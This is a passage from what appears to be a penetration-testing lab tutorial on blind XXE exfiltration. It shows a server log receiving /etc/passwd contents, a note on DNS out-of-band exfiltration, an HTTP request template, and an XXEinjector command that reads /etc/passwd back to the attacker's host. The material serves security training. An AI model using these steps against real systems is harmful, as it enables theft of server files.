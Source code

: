 ```shell-session
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

we may utilize `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (e.g. `ENCODEDTEXT.our.website.com`), and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data.

### Automated OOB Exfiltration

we can automate the process of blind XXE data exfiltration with tools. One such tool is [XXEinjector](https://github.com/enjoiz/XXEinjector).

we can copy the HTTP request from Burp and write it to a file for the tool to use. We should not include the full XML data, only the first line, and write `XXEINJECT` after it as a position locator for the tool:

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Now, we can run the tool with the `--host`/`--httpport` flags being our IP and port, the `--file` flag being the file we wrote above, and the `--path` flag being the file we want to read. We will also select the `--oob=http` and `--phpfilter` flags to repeat the OOB attack we did above, as follows:

```shell-session
ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```
